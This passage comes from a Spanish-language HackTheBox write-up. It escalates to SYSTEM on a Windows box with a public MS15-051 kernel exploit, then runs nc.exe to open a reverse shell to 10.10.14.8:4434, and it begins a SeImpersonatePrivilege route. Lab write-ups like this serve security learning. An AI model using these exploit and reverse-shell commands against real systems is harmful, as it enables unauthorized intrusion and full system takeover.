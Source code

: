 ```txt
Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege
```

De primeras encontramos dos cosas, una referencia al reporte `MS10-015` (pero abajo hay por ejemplo una hacia `MS10-021`, por lo que podemos pensar que es un grupo de vulns) y su definición, así que volvemos a buscar binarios que se relacionen...

Peeero nada. Probando, probando y probando cosas llegamos a este repo (que no sé cómo llegue, despues de varios links este fue el que me funciono 😄):

* [SecWiki/windows-kernel-exploits/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051).

Nos descargamos el comprimido `MS15-051-KB3045171.zip`, lo descomprimimos, lo subimos a la máquina y probamos:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe
.\ms15-051.exe
[#] ms15-051 fixed by zcgonvh
[#] usage: ms15-051 command 
[#] eg: ms15-051 "whoami /all"
```

Bien es funcional e interactivo, pues ejecutemos un `whoami`:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe "whoami"
.\ms15-051.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1808 created.
==============================
nt authority\system
```

😲 apaaaa, somos `nt authority\system` :o poooooooo generémonos una **Reverse Shell** de unaaaaaaaaa:

```powershell
C:\inetpub\drupal-7.54>.\ms15-051.exe "c:\inetpub\drupal-7.54\nc.exe 10.10.14.8 4434 -e cmd.exe"
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/bastard/7bash_MS15_051_NTsystemSH_DONE.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Perrrrrfectisiiiimo, conseguimos una Shell explotando el **kernel** de `Windows`, que lindura.

Antes de irnos veamos la otra manera de escalar...

...

## Explotamos el privilegio <u>SeImpersonatePrivilege</u> [📌](#seimpersonate-juicy) {#seimpersonate-juicy}

Si revisamos nuestros privilegios vemos 3:

```powershell
C:\inetpub\drupal-7.54>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```
